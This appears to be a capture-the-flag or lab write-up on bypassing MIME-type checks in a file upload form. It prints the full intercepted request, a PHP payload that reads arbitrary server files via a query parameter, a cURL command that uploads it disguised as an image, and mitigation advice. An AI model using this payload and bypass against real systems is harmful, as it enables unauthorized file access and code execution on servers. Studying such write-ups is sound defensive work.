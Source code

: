 # Write-Up: File Upload Exploit

## Exploit Overview

The vulnerability exploited here is related to insecure file upload handling. By intercepting the POST request used to upload a file, we can modify the `Content-Type` header to bypass weak MIME type validation on the server.

### Steps to Exploit

1. Intercept the POST request for file upload using a tool like Burp Suite or similar.
2. Change the `Content-Type` from `application/x-php` (indicating a PHP script) to `image/jpeg` (indicating an image file).
3. Submit the modified request.

Here is the intercepted and modified POST request:

```
POST /?page=upload HTTP/1.1
Host: 192.168.1.33
Content-Length: 597
Cache-Control: max-age=0
Accept-Language: fr-FR,fr;q=0.9
Origin: http://192.168.1.33
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNHtXWgyPKt1jS4A8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.33/?page=upload
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive

------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="uploaded"; filename="test.php"
Content-Type: application/x-php (!!!ICI!!!)

<?php
if (isset($_GET['file'])) {
    echo file_get_contents($_GET['file']);
} else {
    echo "Veuillez fournir un fichier avec ?file=chemin_du_fichier.";
}
?>

------WebKitFormBoundaryNHtXWgyPKt1jS4A8
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryNHtXWgyPKt1jS4A8--
```
#### Exploit via cURL

To exploit this vulnerability directly via cURL:

```bash
curl -X POST "http://192.168.1.33/?page=upload" \
-H "Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNHtXWgyPKt1jS4A8" \
-F "MAX_FILE_SIZE=100000" \
-F "uploaded=@test.php;type=image/jpeg" \
-F "Upload=Upload"
```

### Key Points in cURL Command:

- **`-X POST`**: Specifies the HTTP POST method.
- **`-H "Content-Type"`**: Sets the boundary for the multipart form data.
- **`-F`**: Sends form fields; `uploaded=@test.php` attaches the malicious file, faked as an image by specifying `type=image/jpeg`.



### Explanation

1. The `Content-Type` was modified from `application/x-php` to `image/jpeg`.
2. The uploaded file, while disguised as an image, contains executable PHP code.
3. If the server does not properly validate the file type and executes the script, the payload is successful.

## Vulnerability Description

This vulnerability arises from insufficient validation of user-uploaded files. While the application performs some checks, they are based solely on the MIME type provided in the HTTP headers, which can be easily manipulated.

### Key Points

- **Manipulable MIME Type:** The `Content-Type` header in the HTTP request can be manually altered.
- **Insufficient Server Validation:** The server does not validate the actual file content or extension.
- **Potential for Code Execution:** The uploaded file can execute malicious code, leading to unauthorized access or further exploitation.

## Mitigation Strategies

To prevent this type of attack, consider implementing the following measures:

1. **Server-Side Validation:**

   - Verify file extensions and MIME types.
   - Perform content inspection of the uploaded file to ensure it matches the expected format.

2. **Restrict Executable File Uploads:**

   - Block potentially dangerous file types like `.php`, `.exe`, `.js`, etc.

3. **File Storage:**

   - Store uploaded files in a directory that is not web-accessible.
   - Rename uploaded files to remove any executable extensions.


